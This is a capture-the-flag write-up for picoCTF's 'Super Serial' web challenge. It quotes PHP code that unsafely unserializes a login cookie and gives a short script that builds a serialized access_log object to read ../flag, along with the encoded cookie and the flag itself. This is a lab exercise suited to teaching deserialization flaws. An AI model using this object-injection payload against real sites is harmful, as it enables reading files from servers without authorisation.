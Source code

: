 # Super Serial

## Problem Statement

Try to recover the flag stored on this website http://mercury.picoctf.net:5428/

## Type

Web Exploitation

## Hints

1.The flag is at ../flag

## Approach

On getting the list of files in the directory I see there's a robots.txt file which disallows ```admin.phps```, phps is the source file.
Trief visiting admin.phps but the page didnt exist. So I tried ```index.phps```.

In ```index.phps``` there are 2 file names, cookie.php and authentication.php.

In cookie.php we see a funtion for password verification.
```
if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}
```

only if we input the correct value for the cookie ```login``` we'll get the deserialized output otherwise it throws an error.

In ```authentication.phps```  there's another function

```
class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}
```

On running the following code in a php sandbox, I got the contents of ```../flag``` file

```
<?php

class access_log
{
	public $log_file = "../flag";
}
print(urlencode(base64_encode(serialize(new access_log))))
?>
```

adding a cookie named "login" with value "TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9" we get our flag. 


## Flag

picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_c5123066}